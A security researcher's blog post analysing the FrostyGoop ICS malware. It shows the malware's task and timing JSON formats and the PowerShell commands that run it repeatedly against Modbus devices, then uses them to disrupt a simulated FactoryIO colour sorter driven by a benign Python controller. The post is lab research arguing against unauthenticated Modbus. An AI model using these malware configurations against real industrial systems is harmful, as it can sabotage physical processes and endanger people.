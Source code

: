 ```yaml
---
title: "Functional Analysis of FrostyGoop ICS Malware pt. 2/2"
description: Playing around with FrostyGoop
draft: false
date: 2024-07-28T09:00:00+01:00
publishDate: 2024-07-28T09:00:00+01:00
tags: ["cyber security", "malware", "analysis", "functional", "stuxnet", "havex", "industroyer", "reverse engineering", "ICS", "OT", "FactoryIO", "hacking", "frostygoop"]
---
```


Taking FrostyGoop to the next level and attacking a simulated sorting machine.

## Introduction

While analysing the FrostyGoop ICS malware in my previous [blogpost](https://www.remyjaspers.com/blog/frostygoop) I had way too much fun with analyzing the Modbus TCP protocol and its security (or lack thereof). Not being able to use the timing and automating bit of the malware haunted me and I wanted to fully understand it. Shoutout to Nozomi for their awesome [writeup]((https://www.nozominetworks.com/blog/protecting-against-frostygoop-bustleberm-malware)) of the malware. They were able to reverse engineer the task_test.json file which I was still figuring out. 

Armed with this knowledge, I wanted to take this malware and experimentation with unauthenticated Modbus to the next level. I experimented some more with the timing commands until I got them to work. 

After I show some more details on how to run the commands to time execution of FrostyGoop, I will build a small lab to have something more interesting to look at than the ModRssim2 table of register values :yawning_face:.  After [digging](https://rodrigocantera.com/en/modbus-tcp-packet-injection-with-scapy/) around, I found this awesome [industrial conveyor belt color sorter ](https://community.factoryio.com/t/sort-by-color-conveyor-system/222) scenario in a ICS simulation software called [FactoryIO](https://factoryio.com/). FactoryIO allows to interact with it using software from many ICS vendors (Siemens, Rockwell etc. ) This looks like the perfect candidate for a more realistic attack scenario! Before we attack this sorting station however, let's have a brief look at how FrostyGoop's timed execution works.

![img/sorting_machine.jpg](img/sorting_machine.jpg)

## FrostyGoop Timing

As the folks from Nozomi showed, FrostyGoop can be run with a tasklist JSON file that lays out the steps to automatically attack Modbus appliances. This greatly helps in foregoing the repetitive task of providing command line arguments for each Modbus message to be sent. This file assumes the following format:

```JSON
{
    "Iplist" : ["127.0.0.1"],
    "Tasks" : [
        {
            "Code" : 16,
            "Address" : 0,
            "Value" : 8000,
            "Count" : 3
        }
    ]
   
}
```

After playing around with the sample for a bit longer I found out how to use the *StartTime*, *PeriodTime*, *WaitTime* and *IntervalTime* variables. We can provide these in a *separate* JSON file so FrostyGoop's execution can be delayed, repeated, or scheduled. Unfortunately I was only able to set the StartTime in hours, but I found no way to make it work with a UTC date/time string. This "cycle info" JSON file has the following format:

```JSON
{
 "StartTime" : "13:20:00",
 "IntervalTime" :  "1ms",
 "PeriodTime" : "1ms",
 "WorkTime" : "20s"
} 

```

| Command | Explanation |
|-|-|
|StartTime | UTC time string to schedule execution (HH:MM:SS)|
|IntervalTime | Time between executions |
|PeriodTime | Not sure about this one|
| WorkTime | Length of time for the malware to repeat execution (20 seconds)|

To execute the malware with the timing info, the following command can be used:

```Powershell
.\mb.exe -cycle .\cycle.json -input-task .\task_test.json
```

You can also just execute this malware in a Powershell loop, but this provides less flexibility:

```Powershell
While (1) { ./mb.exe -input-task ./task_test.json; }
```
## Driving the sorting station

The project files I found on the FactoryIO community were great but only provided Rockwell PLC driver code for the project and a proprietary ControlIO driver. Neither of them suited my purposes very well as I don't want to learn an entire software stack just to prove a point :grinning_face: . So I decided to cook something up myself. 

Before we can interact with FactoryIO, we have to configure it as a Modbus TCP/IP server, with the following settings. The other settings are left to their defaults, but it is important to set the Slave ID to 254 (because FrostyGoop for some reason sets this as the default?). Other settings are left to their defaults:

![img/factoryio_modbus_config.png](img/factoryio_modbus_config.png)
 
FactoryIO shows a nice overview of all the registers that can be read and/or written to. By connecting the various sensors and actuators to the right registers, we are able to send Modbus commands to drive them. I configured the sensors and actuators as follows:

![img/modbus_register_overview.png](img/modbus_register_overview.png)

I decided to just write a small driver in Python using the [pyModbus](https://pypi.org/project/pymodbus/) library. This code is probably devoid of any decent PLC programming practices (I have zero experience with that stuff). Regardless, it works for our purposes. It reads the Modbus registers that store the sensor (vision, laser) values and drives the actuators (load pushers, conveyor belt etc.) based on those values, and sorts the conveyed parts in their respective buckets. 

```Python
from pymodbus.client import ModbusTcpClient
from pymodbus.exceptions import ModbusException
import time

SLAVE = 254

c = ModbusTcpClient('127.0.0.1')   # Create client object
c.connect()                        # connect to device, reconnect automatically

# Reset 
c.write_coil(0, 1, SLAVE); # emitter start
c.write_coil(1, 0, SLAVE); # load pusher reset

c.write_coil(2, 0, SLAVE); # pusher 1 reset
c.write_coil(3, 0, SLAVE); # pusher 2 reset
c.write_coil(4, 0, SLAVE); # pusher 3 reset

c.write_register(7, 0, SLAVE); #reset belt speed
c.write_register(14, 0, SLAVE); # conveyor belt off

while c.connected:

        part_ready = c.read_discrete_inputs(0, 1, SLAVE).bits[0];
        part_pres_1 = c.read_discrete_inputs(1, 1, SLAVE).bits[0];
        part_pres_2 = c.read_discrete_inputs(2, 1, SLAVE).bits[0];
        part_pres_3 = c.read_discrete_inputs(3, 1, SLAVE).bits[0];
        
        load_pusher_adv = c.read_discrete_inputs(4, 1, SLAVE).bits[0];
        load_pusher_ret = c.read_discrete_inputs(5, 1, SLAVE).bits[0];

        metal_bin = c.read_discrete_inputs(5, 1, SLAVE).bits[0];
        blue_bin = c.read_discrete_inputs(6, 1, SLAVE).bits[0];
        green_bin = c.read_discrete_inputs(7, 1, SLAVE).bits[0]
        reject_bin = c.read_discrete_inputs(8, 1, SLAVE).bits[0];

        metal_detect = c.read_input_registers(2, 1, SLAVE).registers[0];
        blue_detect = c.read_input_registers(1, 1, SLAVE).registers[0];
        green_detect = c.read_input_registers(0, 1, SLAVE).registers[0];
        
        metal_retract = c.read_input_registers(5, 1, SLAVE).registers[0];
        blue_retract = c.read_input_registers(4, 1, SLAVE).registers[0];
        green_retract = c.read_input_registers(3, 1, SLAVE).registers[0];

        belt_speed = c.read_input_registers(7, 1, SLAVE).registers[0];
        conv_off = c.read_discrete_inputs(14, 1, SLAVE).bits[0];
        
        if conv_off:
                c.write_register(7, 0, SLAVE); # Reset belt speed
        else:
                c.write_register(7, belt_speed, SLAVE); # Set belt speed based on knob
                
        if part_pres_1:
                c.write_coil(0, 0, SLAVE); # Emitter disable
        else:
                c.write_coil(0, 1, SLAVE); # Emitter enable

        if not part_ready and load_pusher_ret:
                c.write_coil(1, 1, SLAVE); # Load pusher adv
       
        if load_pusher_adv:
                c.write_coil(1, 0, SLAVE); # Load pusher retract
    
        if metal_detect == 9 and part_pres_3:
                c.write_register(2, 0x7FFF, SLAVE); # Pusher metal adv
        else:
                c.write_register(2, 0x8000, SLAVE); # Pusher metal retract
        
        if blue_detect == 2 and part_pres_2:
                c.write_register(1, 0x7FFF, SLAVE); # Pusher blue adv
        else:
                c.write_register(1, 0x8000, SLAVE); # Pusher blue retract
        
        if green_detect == 5 and part_pres_1:
                c.write_register(0, 0x7FFF, SLAVE); # Pusher green adv
        else:
                c.write_register(0, 0x8000, SLAVE); # Pusher green retract
        
        time.sleep(0.1);
```

Under normal operation, the color sorter works as intended, putting the metal, blue and green lids, and the small paper boxes in their respective bucket (sped up 4x for your viewing pleasure).

![Normal Operation](img/normal_operation.gif)

Let's attack this sorting machine and see what happens. 

## Attacking the sorting station with FrostyGoop

Using the aforementioned task and cycle info JSON files, we run FrostyGoop to target the sorting machine. Twenty seconds of sending crafted Modbus messages is all it takes to throw the sorting machine into disarray:

![Attacked](img/attacked_operation.gif)

## Conclusion

This hopefully reinforces the point that using unauthenticated Modbus TCP is a *bad* idea. Even rather unsophisticated malware like FrostyGoop can do real damage if deployed under the right circumstances. 

Thanks for reading until the end. If you have any questions or suggestions feel free to drop me a message on Linkedin or Xitter (@st0yky).